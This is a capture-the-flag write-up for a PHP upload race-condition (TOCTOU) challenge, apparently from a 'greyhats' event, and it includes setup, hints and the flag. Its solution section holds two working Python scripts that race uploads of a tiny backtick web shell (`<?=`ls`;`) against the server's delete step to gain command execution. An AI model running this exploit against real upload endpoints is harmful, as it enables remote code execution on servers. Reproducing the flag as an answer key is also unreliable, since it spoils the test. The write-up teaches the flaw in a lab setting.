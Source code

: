# Resume

### Challenge Details

This challenge is testing on Race Condition/TOCTOU(Time-of-check Time-of-use) type vulnerability which can often be seen in the real world.

A simple web allows you upload tiny files(less than 10 bytes), with blacklist being used. However, the logic for processing the uploaded files is wrong. The program uploads user's file into web directory first, then check the extensions against the blacklist. If the file is not permitted to be uploaded, the program will delete it. 

There is a time gap when the malicious file is being uploaded, and being deleted. This time gap allows participants to execute limited command(due to size limited) on the server.

PHP short tag `<?=` is always enabled regardless of `short_open_tag` directives in php.ini, which is short for `<?php echo`, and backtick ` can be used to execute shell command.  

### Setup Instruction

```
docker-compose up -d
```

### Possible hints

> I think Usain Bolt runs faster than Justin Gatlin, but a leopard beats then all! 

> PHP is the best language! Very convenient when you have enabled short tag.

> And also when you have a shortcut for shell_exec.

### Key concept

- TOCTOU
- PHP short tag
- PHP backtick for executing shell command.

### Solution

**Race Condition**

two scripts, one to upload file, and one to access the uploaded file before it gets deleted.

uploader.py

```python
import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def upload(lists):
    hh = hackhttp.hackhttp()
    proxy_str = ('127.0.0.1', 8080)
    raw = """POST /upload.php HTTP/1.1
Host: asdfasdf
Content-Length: 324
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6eDS6MK3g1lytdOB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

------WebKitFormBoundary6eDS6MK3g1lytdOB
Content-Disposition: form-data; name="upload_file"; filename="test.php"
Content-Type: image/png

<?=`ls`;
------WebKitFormBoundary6eDS6MK3g1lytdOB
Content-Disposition: form-data; name="submit"

greyhats{trust_me_this_is_not_flag}
------WebKitFormBoundary6eDS6MK3g1lytdOB--
"""
    code, head, html, redirect, log = hh.http('http://asdfasdf/upload.php', raw=raw)
    #print(str(code) + "\r")


pool = ThreadPool(10)
pool.map(upload, range(10000))
pool.close()
pool.join()

```

visitor.py

```python
import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def visit(lists):
    hh = hackhttp.hackhttp()
    proxy_str = ('127.0.0.1', 8080)
    raw = """GET /upload/test.php HTTP/1.1
Host: asdfasdf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36
DNT: 1
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
"""
    code, head, html, redirect, log = hh.http('http://asdfasdf/upload/test.php', raw=raw)
    #print(str(code) + "\r")
    if code == 200:
        print(html)


pool = ThreadPool(30)
pool.map(visit, range(10000))
pool.close()
pool.join()

```

(or can just use burp intruder)

`ls` command will show a flag file, just visit that file to get the flag.

### Learning objective

the same as key concepts?

### Flag

```
greyhats{h0vv_d1d_y0u_byp455_17?!?!}
```